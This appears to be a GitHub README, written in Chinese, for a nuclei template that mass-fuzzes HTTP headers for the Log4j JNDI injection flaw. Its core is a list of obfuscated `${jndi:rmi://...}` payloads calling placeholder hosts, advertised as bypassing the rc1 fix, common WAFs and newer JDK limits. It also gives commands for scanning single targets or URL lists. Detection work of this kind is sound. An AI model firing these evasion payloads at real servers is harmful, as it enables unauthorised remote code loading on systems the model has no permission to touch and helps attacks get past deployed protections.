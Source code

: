 # log4j-fuzz-head-poc
针对 log4j来批量fuzzz 请求头检测，有效检测一些头部存在的安全风险，nuclei默认使用interactsh，建议自建dnslog

添加了绕过rc1的poc

也同时能绕过常见主流waf拦截的poc，还有高版本jdk绕过
```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```


# 使用
```
/nuclei -t log4j-fuzz-head-poc.yaml -u http://www.test.com  -o res.txt  -rl 30 单个检测  速率为30

/nuclei -t log4j-fuzz-head-poc.yaml -l urls.txt  -o res.txt   -rl 30   批量检测  速率为30
```

![image](https://user-images.githubusercontent.com/50769953/145665694-21632dd2-7336-474b-80ed-9cdba4919898.png)

